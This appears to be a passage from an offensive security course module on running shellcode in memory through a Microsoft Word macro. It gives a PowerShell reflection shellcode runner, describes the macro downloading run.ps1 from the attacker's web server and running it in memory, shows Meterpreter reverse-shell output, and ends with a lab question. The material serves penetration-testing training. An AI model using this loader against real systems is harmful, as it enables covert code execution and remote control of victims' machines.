 ```
$lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)

[Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0...

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)

$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)

[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF)
```

> Listing 2 - PowerShell reflection based shellcode runner

With the reflective PowerShell code saved in the **run.ps1** file and stored on the web root of Apache on our Kali box, we can execute the attack and open the Microsoft Word document.

Once the document is opened and the macro warning is accepted, the contents of **run.ps1** are downloaded and executed in memory, after which we obtain a reverse shell, as shown below.

```
[*] Started HTTPS reverse handler on https://192.168.119.50:443
[*] https://192.168.119.50:443 handling request from 192.168.120.10; (UUID: pm1qmw8u) Staging x64 payload (207449 bytes) ...
[*] Meterpreter session 1 opened (192.168.119.50:443 -> 192.168.120.10:49678)

meterpreter > 
```

> Listing 3 - Reverse Meterpreter shell executed from the reflective PowerShell shellcode runner

We now have the tradecraft to execute a completely in-memory payload from Microsoft Office macros while leveraging PowerShell.

## Resources

Some of the labs require you to start the target machine(s) below.

Please note that the IP addresses assigned to your target machines may not match those referenced in the Module text and video.

|   |   |   |
|---|---|---|
|Reflective PowerShell in Microsoft Office - VM #1|||

#### Labs

1. Implement the reflective PowerShell shellcode runner and execute it from a Microsoft Word macro as shown in this module.

What process does the shellcode run inside of?
